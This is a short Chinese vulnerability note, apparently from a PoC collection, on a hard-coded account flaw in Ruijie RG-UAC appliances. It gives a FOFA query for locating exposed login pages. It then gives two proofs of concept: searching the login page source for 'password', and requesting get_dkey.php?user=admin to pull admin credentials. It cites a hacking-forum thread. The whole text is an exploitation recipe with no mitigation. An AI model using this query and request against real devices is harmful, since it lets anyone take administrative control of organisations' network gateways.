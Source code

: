 # 锐捷RG-UAC 账户硬编码漏洞

fofa：

title="RG-UAC登录页面"

**PoC1：**

登录页面直接查看源代码，搜索：password

**PoC2:**

```
https://127.0.0.1/get_dkey.php?user=admin
```

ref：
https://forum.ywhack.com/thread-114977-1-2.html